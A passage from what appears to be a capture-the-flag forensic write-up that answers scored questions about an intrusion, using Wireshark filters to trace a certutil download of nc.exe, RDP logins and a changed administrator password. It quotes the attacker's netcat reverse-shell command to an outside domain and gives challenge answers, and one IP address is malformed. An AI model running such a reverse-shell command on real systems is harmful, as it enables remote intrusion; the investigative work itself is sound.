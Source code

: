 Finding `nc.exe` seems like a good find. It has got downloaded right after payload was sent to the web server.

> What was the name of the malicious file they downloaded using this windows executable? (10 points): nc.exe

We can assume that `172.31.4.99` could have downloaded `nc.exe` from `178.62.72.123` (Host: `advertyzing.co.uk:443`). 

> What is the malicious domain used by the threat actor? (10 points): advertyzing.co.uk

> The threat actor has made good use of ‘Living off the land’ binaries (LOLBins). Which windows executable did they use to download a malicious file from their server? (10 points): Certutil.exe

In the packet **1158260** we can see that command was issued to achieve reverse shell `nc.exe advertyzing.co.uk 443 -e powershell.exe` on `17.38.54.749676` so let's turn the filter around in order to possibly find if Netcat revershe shell connection was indeed successful and which commands were ran (...hoping for unencrypted traffic between our server and threat actor...) 
Filter user: `ip.src==172.31.4.99 && ip.dst==178.62.72.123 && tcp.port==443`

In one of the last TCP packets we can see that local Administrator's password was changed.
![](/assets/images/2022-04-01-15-47-37.png)

Session stops here which is interessting. Attacker has now persistence and we know that RDP and WINRM are running. (this can actually be seen in the netcats' output or check KAPE's output from *netstat*)
![](/assets/images/2022-04-01-15-50-04.png)

Now recall(!) we've saw connections on RDP/TCP3389 from two IP-Adresses `82.16.6.12` and `95.181.232.7` so let's have a look in the wireshark. 
Filter: `ip.dst==172.31.4.99 && tcp.port==3389 && (ip.src==82.16.6.12 || ip.src==95.181.232.7)` as `82.16.6.12` has used RDP before and `95.181.232.7` used RDP shortly after attack, this one should be in our focus. Since RDP is encrypted there's not much to see in the PCAP itself apart from this packet.